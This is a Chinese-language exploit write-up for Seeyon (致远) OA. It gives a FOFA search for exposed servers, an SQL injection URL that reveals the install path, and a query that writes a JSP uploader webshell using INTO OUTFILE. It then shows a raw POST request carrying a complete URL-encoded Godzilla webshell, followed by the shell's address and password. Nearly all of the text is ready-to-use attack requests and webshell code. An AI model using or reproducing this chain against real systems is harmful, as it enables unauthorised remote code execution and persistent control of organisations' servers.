




## 资产收集：
fofa：body="yyoa" && app="致远互联-OA"
## POC：
1.查路径：  
`http://{Hostname}/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)`  
  
2.根据得到的路径拼接网站根目录默认路径/tomcat/webapps/yyoa/1_upload.jsp，写入第一个带上传功能的马1_upload.jsp，回包显示更新或已经存在即为上传成功.  
```
路径格式转换:{{路径}} -> {{路径}}/tomcat/webapps/yyoa/1_upload.jsp
例如此处的 d:\UFseeyon\OA\mysql\bin\..\ 将\mysql后面的都删除，拼接/tomcat......
->
d:/UFseeyon/OA/tomcat/webapps/yyoa/1_upload.jsp

写入webshell EXP:
http://{Hostname}/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27D:/UFseeyon/OA/tomcat/webapps/yyoa/1_upload.jsp%27
```
  
3.根据第一个上传功能马1_upload.jsp，写入第二个哥斯拉马hello_zhiyuanOA.jsp到根目录，这个无回显  
```
POST /yyoa/1_upload.jsp?f=hello_zhiyuanOA.jsp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 3495
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

t=%3C%25%21+String+xc%3D%223c6e0b8a9c15224a%22%3B+String+pass%3D%22pass%22%3B+String+md5%3Dmd5%28pass%2Bxc%29%3B+class+X+extends+ClassLoader%7Bpublic+X%28ClassLoader+z%29%7Bsuper%28z%29%3B%7Dpublic+Class+Q%28byte%5B%5D+cb%29%7Breturn+super.defineClass%28cb%2C+0%2C+cb.length%29%3B%7D+%7Dpublic+byte%5B%5D+x%28byte%5B%5D+s%2Cboolean+m%29%7B+try%7Bjavax.crypto.Cipher+c%3Djavax.crypto.Cipher.getInstance%28%22AES%22%29%3Bc.init%28m%3F1%3A2%2Cnew+javax.crypto.spec.SecretKeySpec%28xc.getBytes%28%29%2C%22AES%22%29%29%3Breturn+c.doFinal%28s%29%3B+%7Dcatch+%28Exception+e%29%7Breturn+null%3B+%7D%7D+public+static+String+md5%28String+s%29+%7BString+ret+%3D+null%3Btry+%7Bjava.security.MessageDigest+m%3Bm+%3D+java.security.MessageDigest.getInstance%28%22MD5%22%29%3Bm.update%28s.getBytes%28%29%2C+0%2C+s.length%28%29%29%3Bret+%3D+new+java.math.BigInteger%281%2C+m.digest%28%29%29.toString%2816%29.toUpperCase%28%29%3B%7D+catch+%28Exception+e%29+%7B%7Dreturn+ret%3B+%7D+public+static+String+base64Encode%28byte%5B%5D+bs%29+throws+Exception+%7BClass+base64%3BString+value+%3D+null%3Btry+%7Bbase64%3DClass.forName%28%22java.util.Base64%22%29%3BObject+Encoder+%3D+base64.getMethod%28%22getEncoder%22%2C+null%29.invoke%28base64%2C+null%29%3Bvalue+%3D+%28String%29Encoder.getClass%28%29.getMethod%28%22encodeToString%22%2C+new+Class%5B%5D+%7B+byte%5B%5D.class+%7D%29.invoke%28Encoder%2C+new+Object%5B%5D+%7B+bs+%7D%29%3B%7D+catch+%28Exception+e%29+%7Btry+%7B+base64%3DClass.forName%28%22sun.misc.BASE64Encoder%22%29%3B+Object+Encoder+%3D+base64.newInstance%28%29%3B+value+%3D+%28String%29Encoder.getClass%28%29.getMethod%28%22encode%22%2C+new+Class%5B%5D+%7B+byte%5B%5D.class+%7D%29.invoke%28Encoder%2C+new+Object%5B%5D+%7B+bs+%7D%29%3B%7D+catch+%28Exception+e2%29+%7B%7D%7Dreturn+value%3B+%7D+public+static+byte%5B%5D+base64Decode%28String+bs%29+throws+Exception+%7BClass+base64%3Bbyte%5B%5D+value+%3D+null%3Btry+%7Bbase64%3DClass.forName%28%22java.util.Base64%22%29%3BObject+decoder+%3D+base64.getMethod%28%22getDecoder%22%2C+null%29.invoke%28base64%2C+null%29%3Bvalue+%3D+%28byte%5B%5D%29decoder.getClass%28%29.getMethod%28%22decode%22%2C+new+Class%5B%5D+%7B+String.class+%7D%29.invoke%28decoder%2C+new+Object%5B%5D+%7B+bs+%7D%29%3B%7D+catch+%28Exception+e%29+%7Btry+%7B+base64%3DClass.forName%28%22sun.misc.BASE64Decoder%22%29%3B+Object+decoder+%3D+base64.newInstance%28%29%3B+value+%3D+%28byte%5B%5D%29decoder.getClass%28%29.getMethod%28%22decodeBuffer%22%2C+new+Class%5B%5D+%7B+String.class+%7D%29.invoke%28decoder%2C+new+Object%5B%5D+%7B+bs+%7D%29%3B%7D+catch+%28Exception+e2%29+%7B%7D%7Dreturn+value%3B+%7D%25%3E%3C%25try%7Bbyte%5B%5D+data%3Dbase64Decode%28request.getParameter%28pass%29%29%3Bdata%3Dx%28data%2C+false%29%3Bif+%28session.getAttribute%28%22payload%22%29%3D%3Dnull%29%7Bsession.setAttribute%28%22payload%22%2Cnew+X%28this.getClass%28%29.getClassLoader%28%29%29.Q%28data%29%29%3B%7Delse%7Brequest.setAttribute%28%22parameters%22%2Cdata%29%3Bjava.io.ByteArrayOutputStream+arrOut%3Dnew+java.io.ByteArrayOutputStream%28%29%3BObject+f%3D%28%28Class%29session.getAttribute%28%22payload%22%29%29.newInstance%28%29%3Bf.equals%28arrOut%29%3Bf.equals%28pageContext%29%3Bresponse.getWriter%28%29.write%28md5.substring%280%2C16%29%29%3Bf.toString%28%29%3Bresponse.getWriter%28%29.write%28base64Encode%28x%28arrOut.toByteArray%28%29%2C+true%29%29%29%3Bresponse.getWriter%28%29.write%28md5.substring%2816%29%29%3B%7D+%7Dcatch+%28Exception+e%29%7B%7D%3Bout.println%28%22hello+zhiyuanOA%22%29%3B%25%3E
```

4. 哥斯拉连接  
```
http://{{Hostname}}/yyoa/hello_zhiyuanOA.jsp
密码：pass
```
